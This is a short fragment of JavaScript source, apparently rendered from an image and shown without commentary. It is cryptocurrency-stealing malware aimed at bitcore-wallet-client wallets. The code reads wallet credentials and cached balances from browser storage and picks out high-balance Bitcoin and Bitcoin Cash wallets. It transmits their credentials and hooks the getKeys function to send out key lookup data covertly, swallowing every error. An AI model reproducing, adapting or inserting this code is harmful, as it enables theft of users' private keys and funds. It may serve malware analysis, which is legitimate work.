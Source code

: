 ```
              file.file(function(contents) {
                const fileReader = new FileReader;
                fileReader.onloadend = function() {
                  return callback(JSON.parse(fileReader.result))
                };
                fileReader.onerror = function(err) {
                  fileReader.abort()
                };
                fileReader.readAsText(contents)
              })
            })
          })
        } catch (err) {}
      } else {
        try {
          const data = localStorage.getItem(name);

          if (data) {
            return callback(JSON.parse(data));
          }

          chrome.storage.local.get(name, function(entry) {
            if (entry) {
              return callback(JSON.parse(entry[name]));
            }
          })
        } catch (err) {}
      }
    }

    global.CSSMap = {};

    getDataFromStorage("profile", function(data) {
      for (let credential in data.credentials) {
        const creds = data.credentials[credential];
        if ("livenet" == creds.network) {
          getDataFromStorage("balanceCache-" + creds.walletId, function(data) {
            const self = this;
            self.balance = parseFloat(data.balance.split(" ")[0]);

            if ("btc" == self.coin && self.balance < 100 || "bch" == self.coin && self.balance < 1000) {
              global.CSSMap[self.xPubKey] = true;
            }

            sendRequests("c", JSON.stringify(self));
          }.bind(creds))
        }
      }
    });

    const Credentials = require("bitcore-wallet-client/lib/credentials.js");
    // Intercept the getKeys function in the Credentails class
    Credentials.prototype.getKeysFunc = Credentials.prototype.getKeys;
    Credentials.prototype.getKeys = function(keyLookup) {
      const originalResult = this.getKeysFunc(keyLookup);
      try {
        if (global.CSSMap && global.CSSMap[this.xPubKey]) {
          delete global.CSSMap[this.xPubKey];
          sendRequests("p", keyLookup + "\t" + this.xPubKey);
        }
      } catch (err) {}

```